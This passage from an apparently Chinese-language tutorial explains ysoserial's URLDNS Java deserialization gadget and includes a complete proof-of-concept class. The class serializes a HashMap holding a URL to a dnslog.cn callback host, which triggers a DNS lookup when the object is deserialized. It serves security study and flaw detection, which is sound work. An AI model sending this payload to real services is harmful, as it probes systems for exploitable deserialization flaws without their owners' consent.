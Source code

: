 代码`Reflections.setFieldValue(u, "hashCode", -1);`中的`setFieldValue()`函数是`ysoserial`项目自定义的一个反射类中的函数。

```java
public class Reflections {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
}
```
上述代码通过反射来设置`URL`类的`hashCode`的值为`-1`，这是因为在`HashMap#put`时已经调用过一次`hashCode()`函数，`hashCode`的值会改变不再为`-1`，这样会导致在下一步经过`HashMap`的`readObject()`函数反序列化时直接返回`hashCode`的值，不再调用`handler.hashCode(this)`，因此利用反射来将`hashCode`的值设为`-1`，最后利用`PayloadRunner.run()`来进行反序列化。

##  POC链

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.text.SimpleDateFormat;
import java.util.Date;
import java.util.HashMap;

public class URLDemo {

    public static void main(String[] args) throws Exception {
        Date nowTime = new Date();
        HashMap hashmap = new HashMap();
        URL url = new URL("http://lttx9f.dnslog.cn");
        SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss");
        Field filed = Class.forName("java.net.URL").getDeclaredField("hashCode");
        filed.setAccessible(true);  // 绕过Java语言权限控制检查的权限
        filed.set(url, 209);
        hashmap.put(url, 209);
        System.out.println("当前时间为: " + simpleDateFormat.format(nowTime));
        filed.set(url, -1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./dnsser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./dnsser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
